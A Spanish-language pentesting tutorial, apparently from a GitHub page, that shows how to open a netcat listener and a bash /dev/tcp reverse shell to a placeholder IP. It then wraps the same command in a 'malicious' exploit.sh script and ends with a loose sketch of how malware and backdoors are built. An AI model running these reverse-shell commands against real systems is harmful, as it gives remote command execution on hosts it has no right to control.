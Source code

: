 ```yaml
---
title: Pentesting
published: true
---
```




**Hola** hoy estaremos hablando de pentesting web, hablaremos sobre:
* **Creacion de ReverseShell comandos.**
* **Como estan compuestos los payloads exploits malware para windows.**
<br>

Vale primero que es una **ReverseShell**, lo explicara en un lenguaje brusco, una ReverShell es aquella que te permite
ejecutar comandos en una pc que no es tu dominio, es decir una ip el cual es la de la victima conectada a un hosts,
donde el hosts es tu equipo y te permite ejecucion remota de comandos.

[Puedes encontrar mas informacion aqui](https://www.google.com/search?q=ReverseShell&client=firefox-b-d&sxsrf=ALiCzsbKFcBidTADzj_JE7x-ksfIvwVUpA%3A1658946186694&ei=ioLhYpz9KeezqtsPnd-L8A0&ved=0ahUKEwic6qKR2Jn5AhXnmWoFHZ3vAt4Q4dUDCA0&uact=5&oq=ReverseShell&gs_lcp=Cgdnd3Mtd2l6EAMyBwgjELECECcyBwgjELECECcyBwgjELECECcyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEM6BwgAEEcQsAM6BAguECc6BAgjECc6CwgAEIAEELEDEIMBOgcIIxDqAhAnOggIABCxAxCDAToFCAAQgAQ6BAgAEAM6BggjECcQEzoKCAAQsQMQgwEQQzoKCC4QsQMQgwEQQzoGCAAQChBDOggIABCABBCxAzoICC4QgAQQsQM6BwgAEIAEEAo6BwgAEAoQywE6BQgAEMsBSgQIQRgASgQIRhgAUM4EWPkxYJkzaAhwAXgBgAHzAYgBrBqSAQYwLjE0LjSYAQCgAQGwAQrIAQjAAQE&sclient=gws-wiz).

-------
<br>

<h3><font color="lime">[*]</font> Empezaremos con las pruebas de ReverseShell:</h3>
los programas a utilizar para la ReverseShell es bash, netcat, si usas linux es probable que ya los tengas instalados, 
en el caso contrario ejecuta:
<br>

para linux:

 `sudo apt-get install netcat bash`

para arch-linux:

`pacman -Sy netcat bash`

<br>
<br>

<h3>IMPORTANTE</h3> <ph><font color="green">[*]</font> Para estas bruebas si lo vas a hacer desde terminal, tienes que utilizar bash y no zsh por que te dara
errores, claro si quieres puedes probar de zsh y conocer los errores pero si quieres omitir esto, entonces solo ejecutas
el siguiente comando:</ph>

`bash`


<img src="screenshots/screen_bash.jpg">

<ph><font color="lime">[↑]</font> Como puede ver ya no estoy en la zsh entonces vamos a operar desde la terminal y luego operaremos de un script mailicioso.</ph>
<br>

---
<br>
<ph><font color="lime">[*]</font> Empezamos poniendonos en escucha por el puerto 443 de netcat : </ph>

`nc -nvlp 443`

<ph><font color="lime">[*]</font> Miramos que ip tenemos con el comando ifconfig :</ph>

`ifconfig`

<img src="screenshots/ifconfig.jpg">

<ph><font color="lime">[↑]</font> Como pueden ver tengo la ip 127.0.0.1</ph>
<br>
<ph><font color="lime">[*]</font> Ahora estando en escucha con netcat "nc -nlvp 443" en el puerto 443, vamos a entablarnos la coneccion desde otra
terminal por que la primera esta siendo ocupada por netcat entonces recuerden ejecutar el comando <b>bash</b> antes de entablar
la coneccion.</ph>

<br>

<ph><font color="lime">[*]</font> Para entablar la coneccion hacemos el siguiente comando :</ph>
<br>

`bash  	   `

`bash -i >& /dev/tcp/TU-IP/443/ 0>&1`


<img src='screenshots/reverse.jpg'>

<ph><font color="lime">[↑]</font> Como pueden ver se me abrio un <b>ReverseShell</b> en la parte donde estaba en escucha con netcat.</ph>

-------
<br>

<ph><font color="lime">[*]</font> Ahora pasaremos a desarrollar un <b>script malicioso en bash</b>, para ello aremos los mismo solo que esta ves el comando : 
`bash -i >& /dev/tcp/127.0.0.1/443 0>&1` ira dentro de un script sh para ello:</ph>

<br>

```
touch exploit.sh && echo -e "bash -i &>/dev/tcp/$(cat /etc/hosts  | grep localhost | awk "NR==1" | cut -d " " -f "1-1")/443 0>&1" >> exploit.sh && chmod +x ./exploit.sh
```

<br>

<ph><font color="lime">[*]</font> Lo que desarrolle con ese comando fue hacer un script en bash para poder entablarme una coneccion pueden hacer <b>ls</b> y veran un
 archivo llamado <b>exploit.sh</b> y de paso otorgarle permiso de ejecucion.</ph>

No se ofusque si no entiende la anterior  linea de codigo simplemente lo que hace es hacer un archivo con `touch` darle permisos
con de ejecucion `chmod +x exploit.sh` y meterle adentro con `>>` el codigo :

```#!/bin/bash
   bash -i >& /dev/tcp/127.0.0.1 0>&1
```
<br>
<ph><font color="lime">[*]</font> Pueden hacerlo manualmente con los siquientes comandos :</ph>

`touch exploit.sh`
`chmod +x exploit.sh`
Abren el archivo creado y colocan la `bash -i >& /dev/tcp/SU-IP/443 0>&1`

<br>

<ph><font color="lime">[*]</font> Una vez ya echo el archivo, pongace en escucha por el puerto 443 con netcat. Recuerde
que con el comando <b>nc -nlvp 443</b> nos poniamos en escucha por el puerto 443 este puerto puede ser modificado siempre
y cuando el puerto no este en uso, y claramente en el exploit o codigo ponga su respectivo puerto.ﾠ</ph>

ﾠ
<ph><font color="lime">[*]</font> Nos ponemos en escucha con netcat</ph>
`nc -nlvp 443`

<ph><font color="lime">[*]</font> Y ejecutamos el archivo creado</ph>
`./exploit.sh`

<img src="screenshots/final.jpg">

<ph><font color="lime">[*]</font><b> Ahora como puden ver tengo una reverse shell</b></ph>

<br>

<ph><font color="lime">[*]</font> Lo mas comodo de hacerlo por script es que se puden ejecutar el archivo teniendo la zsh y ahorrandose el comando `bash` y
 ejecutar el archivo este se debe a la extension <b>"sh"</b> que tiene el archivo.</ph>
<br>
<ph>Vale ya sabes al menos cosas basicas de como entablarte un reverse shell luego voy a hacer que entiendas como
ganar acceso a un sistema.<b>http,https.</b></ph>


---

<h3>¿Como estan desarollados los backdoor, exploits, payloads y malware?</h3>
<ph>Te lo voy a explicar en un lenguaje brusco es decir a mi manera para que puedas entenderlo mas facil.<ph>
<ph>Un archivo malicioso ya puede ser malware exploit backdoor (Puerta tracera) payloads, no son mas que archivos en
binario que si recuerdas es lenguaje de la computadora que usa para poder operar. estos archivos puden ser
tambien escritos en hexadecimal para poder luego con un compilador pasarlo a binario.
para esto existen compiladores que te ayudan a crear este tipo de archivo el ultimo
exe que hice fue un archivo escrito en <b>C</b> ganabas acceso al sistema con solo abrirlo, pero este no es el caso de hablar de esto.
si quieres aprender a desarrollar un .exe debes aprender lenguaje c y con ayuda de una herramienta poder compilarlos
yo utilizaba code block, asi y poder luego crearte archivos .exe a tu favor.</ph>

